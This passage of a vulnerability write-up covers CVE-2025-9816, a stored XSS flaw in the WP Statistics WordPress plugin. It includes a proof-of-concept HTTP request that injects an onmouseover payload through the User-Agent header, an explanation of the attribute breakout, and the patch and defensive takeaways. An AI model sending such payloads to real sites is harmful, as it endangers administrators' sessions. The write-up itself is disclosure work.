mysql> SELECT ID, last_counter, referred, agent, platform, version, device, model FROM wp_statistics_visitor;
+----+--------------+----------+---------------+----------+---------+------------+--------------+
| ID | last_counter | referred | agent         | platform | version | device     | model        |
+----+--------------+----------+---------------+----------+---------+------------+--------------+
| 63 | 2025-10-01   |          | Chrome Mobile | Android  | 93      | smartphone | Google Pixel |
| 64 | 2025-10-01   |          | Chrome Mobile | Android  | 93      | smartphone | Goly payload |
+----+--------------+----------+---------------+----------+---------+------------+--------------+
```

Check the UI models tab:


*Model displayed in the UI models tab*

### Sources & Sinks

**Source:** `User-Agent` header (POST `/wp-json/wp-statistics/v2/hit`) — DeviceDetector parse → `getModel()`.

**Sink:** `includes/admin/templates/pages/devices/models.php` — `echo $item->model` (without `esc_html()` / `esc_attr()`)

### Flow

1. Attacker sends a UA containing an XSS payload
2. The model containing the payload is stored in the database
3. Admin opens the models tab => payload executes

## Exploit

### Proof of Concept (PoC)

* Send a request containing the XSS payload:

```http
POST /wp-json/wp-statistics/v2/hit HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Linux; Android 14; Goly "onmouseover=alert()-" Build) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/120.0.0.0 Mobile Safari/537.36

wp_statistics_hit=1&source_type=home&source_id=0&search_query=&signature=787b07b8979cb982ec89a4f103a68081&endpoint=hit&referred=&page_uri=Lw%3D%3D
```

* Admin visits the endpoint and hovers over the model containing the payload:

```
http://localhost/wp-admin/admin.php?page=wps_devices_page&tab=models
```


*The browser executes JavaScript when the admin visits.*

> Use `"` to close the title, creating `alert()` via the **onmouseover** event because it’s a `<span>` and `-` is used to concatenate in JavaScript to avoid syntax errors.

## Conclusion

The **CVE-2025-9816** vulnerability in **WP Statistics <= 14.15.4** allows **Stored XSS** via the `model` value parsed from the `User-Agent` header. The payload is stored in the DB and displayed in the admin **Device Models** page without proper escaping. The **14.15.5** patch adds `esc_html()`/`esc_attr()` to output.

**Key takeaways**:

* **Stored XSS** is more dangerous than reflected XSS because it persists in the DB.
* Data from **HTTP headers** must also be treated as untrusted input.
* Always **escape on output** rather than relying solely on input sanitization.
* **Update the plugin** to the latest version to prevent exploitation.

## References

[Cross-site scripting (XSS) cheat sheet - PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress WP Statistics <= 14.15.4 - CVE-2025-9816](https://patchstack.com/database/wordpress/plugin/wp-statistics/vulnerability/wordpress-wp-statistics-plugin-14-5-4-unauthenticated-stored-cross-site-scripting-via-user-agent-header-vulnerability)
